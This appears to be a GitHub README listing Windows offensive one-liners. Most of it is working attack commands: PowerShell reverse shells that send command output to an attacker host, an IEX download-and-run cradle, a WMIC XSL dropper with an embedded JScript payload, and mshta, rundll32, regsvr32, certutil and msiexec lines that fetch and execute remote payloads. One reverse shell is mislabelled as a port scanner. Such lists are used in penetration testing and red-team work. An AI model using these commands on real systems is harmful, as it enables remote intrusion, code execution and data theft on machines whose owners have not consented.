 This is a repository for github One Liners for Windows. You can port scan, get reverse shells with so many methods like below.

Reverse Shell Command Execution through UDP
<pre><code>powershell -nop -c "$s=New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork,[System.Net.Sockets.SocketType]::Dgram,[System.Net.Sockets.ProtocolType]::UDP);$s.Connect((New-Object System.Net.IPEndPoint([system.net.IPAddress]::Parse(\"<HOSTIP>\"),53)));$s.send(([System.Text.Encoding]::ASCII).GetBytes((whoami)));"<pre><code>

Reverse Shell Command Execution through tcp
<pre><code>powershell -c "whoami | % {$w=(New-Object System.IO.StreamWriter((New-Object System.Net.Sockets.TCPClient([System.Net.IPAddress]::Parse(\"<HOSTIP>\"),80)).GetStream()));$w.WriteLine($_);$w.Flush()}"<pre><code>

Download PS Script
<pre><code>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"<pre><code>

PS Port Scanner
<pre><code>$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()<pre><code>

WMIC Dropper
<pre><code>wmic os get /format:"https://webserver/payload.xsl"<pre><code>

payload.xsl :

<pre><code><?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
		]]>
	</ms:script>
</stylesheet><pre><code>

MSHTA Download
<pre><code>mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta<pre><code>

RUNDLL Execute from SMB
<pre><code>rundll32.exe \\192.168.1.109\vabFG\test.dll,0<pre><code>

REGSRV Download and Execute
<pre><code>regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll<pre><code>

CERTUTIL Download and Execute
<pre><code>certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe<pre><code>

MSIEXEC Download and Execute
<pre><code>msiexec /q /i http://192.168.1.109/1.msi<pre><code>

